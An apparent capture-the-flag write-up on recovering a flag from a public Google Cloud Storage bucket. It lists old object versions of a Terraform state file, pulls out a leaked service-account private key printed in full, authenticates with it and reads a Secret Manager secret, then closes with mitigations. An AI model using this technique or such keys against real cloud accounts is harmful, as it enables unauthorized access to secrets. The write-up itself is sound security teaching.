 ## Overview

A static site on a Google Cloud Storage (GCS) bucket hinted that infrastructure files were left behind. The goal: follow those crumbs to recover the flag.

![Initial landing page showing infrastructure hints](img/blog/hidden1.png)

## 1) Initial Recon

Landing page clearly teases leftover infra artifacts.

![HTML source revealing Terraform state file location](img/blog/hidden2.png)

## 2) View Source → Infra Clue

HTML comments reveal a Terraform state file left in `/infra/`.

![Terraform state file contents](img/blog/hidden3.png)

In checking out this file, nothing useful was provided. I tried looking for other files, to no avail.

![Dead end in infrastructure exploration](img/blog/hidden4.png)

This being a dead end, I started again with what I knew. I knew the URL was `storage.googleapis.com/hidden-state-prod-ctf-dc33`. I figured that could be a bucket tag, and went into cloudshell to check it out.
## 3) Enumerate the Bucket

List objects and object versions (important for recovering old, “cleaned” files):

```bash
gsutil ls gs://hidden-state-prod-ctf-dc33/ 
# gs://hidden-state-prod-ctf-dc33/index.html 
# gs://hidden-state-prod-ctf-dc33/infra/  
gsutil ls -a gs://hidden-state-prod-ctf-dc33/infra 
# gs://hidden-state-prod-ctf-dc33/infra/terraform.tfstate#1754460304936859 
# gs://hidden-state-prod-ctf-dc33/infra/terraform.tfstate#1754460305330281
```

So we fetched the older object version of the same file to see what it had for us.

## 4) Read the Older `terraform.tfstate`

```bash
gsutil cat gs://hidden-state-prod-ctf-dc33/infra/terraform.tfstate#1754460304936859
```

That version contained:

- A flag hint (flag in Secret Manager under `hidden-state-flag`)
- A leaked service account key (full JSON creds)

```json
{
  "lineage": "a1b2c3d4-e5f6-7890-1234-567890abcdef",
  "outputs": {
    "flag_hint": {
      "type": "string",
      "value": "The flag is stored in Secret Manager under the secret name 'hidden-state-flag'. Use this service account and authenticate with: gcloud auth activate-service-account --key-file=service_account_key.json. Then access the secret with: gcloud secrets versions access latest --secret=\"hidden-state-flag\" --project=hiddenstate-dc33. Note: This service account only has access to the specific 'hidden-state-flag' secret."
    },
    "infrastructure_status": {
      "type": "string",
      "value": "deployed"
    },
    "leaked_service_account_key": {
      "sensitive": true,
      "type": "string",
      "value": "{\n \"type\": \"service_account\",\n \"project_id\": \"hiddenstate-dc33\",\n \"private_key_id\": \"8cb4fcb80ee3a7b09a05bf8bc7ba4f067fd725f5\",\n \"private_key\": \"-----BEGIN PRIVATE KEY-----\\nMIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQC3xsk1gspvLfxg\\nhzkba394wduh0WjtZN9elWvnt6oH/JMPKhXaCwuMJHKj+bfaGWnqjmyOOad4le8y\\nmWDxAFWWzeoKI9/CPksiD7QdEqktJBzc++bPwLWjTqJ3N/Y7EsuHZaopf4/LpXBN\\nU6D6IGnnHOrRkmOqSnOY+oox5c0p8MGY3L9sfAKIafyfTt3QlLcdB1I5gBMUE+p+\\nbLj3m9t6SYHzmOLXJGt18TPB0R5EIVuxDN0aY/xYI0sJKeciEN66K7mVxlDETLZ4\\nQd9VAQrPrrpCE4sywSiaHcqYCsIeaEcPB9dY4ZuLs0uhxhOaeLCNZIb3VpGAF/ct\\nBGtw0LXzAgMBAAECggEAPvqNm5vtubodogrVJDNrpLtyg/rapXgLIEO+jdMgHsqM\\nrwayJF3ioC0haFY8ji5lYK9cPkU9whJHvaRYV17Q9fQs/zqaBNwKLWsKQ2hQt5qH\\nladxysJ0vLlG7eospMPlIcpSTRRc9+IDIUzGftE62avMQPOU2hfXk5ZQY5cn/vXg\\niZLnZRGTMohzPcfupxRWUXOg0UGRcnOVr7OzOV8i2ead24TRoPyf6VekZ20im79o\\nJ5rPZkQ//hjgquwDYS+KiNm79NH3vImyCcQTCWQwoLTEFm+VVcurRTzLJHiOu4gg\\nmc7UCIHs+y7bJCXoSw/bczVGmzF3i6cS35dJdZKZ+QKBgQDrW7U64Xto85o1ycKn\\nWjgePXNzsPzfV7iFYeohXKEHb9fl29vSG5QaeHSlpYJ/vb5LNpAlnYMX7SNM+k9a\\n4jpuaJRQUUhkelVHS4vUHtDlIrLueiO/XNoDFD6x1++AgXpXWfyOVS1OzF1URmP+\\nDJKH03TS3a5Z1Aqqketr0ehdPwKBgQDH5PVxvFXqP2IupkakeDhD9OHSJPQEVDgx\\n1mHA+zaw4DfeEORGUchF42xTlAgEJ966dBfOK4fySTpAyZOz0qbgM9C8mJRwsE8m\\no/M17Zl7HtPqM5DH0aa1tzQjDTuDCibktVXm5FYBY+7Ff+o5MqnSG6XX0WO0KmjB\\nVK/ef4bWTQKBgBnJ4bDC9i/IyXPtWJvXweBmYVki4oJibUCIOwxOxwI2mhSAo7SA\\n+xhvbHCeEw+GLey13NOST8P2YvDTWJCfy0E/ykiGr4T69o8qUvb6LW99/tcsoPAd\\n73F47Wm1PHP7O/mITakW4jEJKYzLbbdvjzq8y8czLSCAoG6SMJaO2IQnAoGBAKPP\\nAzyDRDzEWGc2J6ncQu+dm/kkAzwQ8EQXFOCafUURWXcHjKn7lw1+w2TyaGdPbPyK\\n6n8vuSZZz/0Ls5inRc1xaNtEhlCaiyJ1NHe7EA2PQ8YnH7xAGEfNrFIVI/HMvfaq\\ni4y9DaXyCNecbYsV84iU06E6nGQmZNYZ2k2RYCP5AoGBAIEHw7LEmvZYSbfdTuwS\\n3jQJu5C1v99W2xD2QQferggQjb9qmaZisfhrTeeTFJUfsj6/pSCXmumwcxmicg3h\\nTI/iPOnEOt2/koCiBz26iG/O3/pxKYlwDRzJ6cZfRJp85qgEw5t2/WGRP0dGSlJJ\\npovb0mLmR1FPjUD52KClH3mV\\n-----END PRIVATE KEY-----\\n\",\n \"client_email\": \"ctf-leaky-sa@hiddenstate-dc33.iam.gserviceaccount.com\",\n \"client_id\": \"101443721771953202426\",\n \"auth_uri\": \"https://accounts.google.com/o/oauth2/auth\",\n \"token_uri\": \"https://oauth2.googleapis.com/token\",\n \"auth_provider_x509_cert_url\": \"https://www.googleapis.com/oauth2/v1/certs\",\n \"client_x509_cert_url\": \"https://www.googleapis.com/robot/v1/metadata/x509/ctf-leaky-sa%40hiddenstate-dc33.iam.gserviceaccount.com\",\n \"universe_domain\": \"googleapis.com\"\n}\n"
    }
  },
  "resources": [],
  "serial": 1,
  "terraform_version": "1.2.0",
  "version": 4
}
```

## 5) Extract & Save the Leaked Service Account Key

Save the JSON from the state into `service_account_key.json`.

Since it was throwing some json format errors due to having unneeded data, and in challenges like this I am allergic to JSON, I had ChadGPT fix it.

![Service account key extraction and formatting](img/blog/hidden5.png)

I saved this newly formatted service account key for gcloud CLI to access.

## 6) Auth as the Leaked Service Account & Pull the Secret

Use the key to authenticate and then access Secret Manager:

```bash
gcloud auth activate-service-account --key-file=service_account_key.json  
gcloud secrets versions access latest \
          --secret="hidden-state-flag" \   
             --project=hiddenstate-dc33 

# FLAG-{bvpkm3ed5onOA4dXSYGPMPfbpA7cfob0}`
```

## Takeaways / Mitigations
        
- **Object versioning ≠ deletion**: old versions remain retrievable unless explicitly pruned.
    
- **Bucket ACLs & IAM**: lock buckets down; don’t expose infra buckets publicly.
    
- **CI/CD hygiene**: pre-deploy checks to prevent publishing `/infra/` or state files.